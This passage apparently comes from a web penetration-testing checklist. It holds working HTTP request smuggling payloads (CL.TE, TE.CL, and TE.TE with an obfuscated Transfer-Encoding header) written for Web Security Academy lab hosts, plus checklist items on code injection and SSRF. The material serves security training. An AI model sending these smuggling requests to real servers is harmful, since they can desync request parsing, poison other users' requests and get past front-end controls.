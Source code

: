         - CL.TE
            Using Burp Repeater, issue the following request twice:
            POST / HTTP/1.1
            Host: your-lab-id.web-security-academy.net
            Connection: keep-alive
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 6
            Transfer-Encoding: chunked
        
            0
        
            G
            The second response should say: Unrecognized method GPOST.
        
         - TE.CL
            In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
            Using Burp Repeater, issue the following request twice:
            POST / HTTP/1.1
            Host: your-lab-id.web-security-academy.net
            Content-Type: application/x-www-form-urlencoded
            Content-length: 4
            Transfer-Encoding: chunked
        
            5c
            GPOST / HTTP/1.1
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 15
        
            x=1
            0
        
         - TE.TE: obfuscating TE Header
             In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
            Using Burp Repeater, issue the following request twice:
            POST / HTTP/1.1
            Host: your-lab-id.web-security-academy.net
            Content-Type: application/x-www-form-urlencoded
            Content-length: 4
            Transfer-Encoding: chunked
            Transfer-encoding: cow
        
            5c
            GPOST / HTTP/1.1
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 15
        
            x=1
            0
        ```
        
- [ ]  Code Injection (<h1>JohanyCh</h1> on stored param)
- Server-side request forgery (SSRF)
    - [ ]  Bypassing via open redirection
    - [ ]  SSRF in previously discovered open ports
    - [ ]  Try basic localhost payloads
    - Common injection parameters
        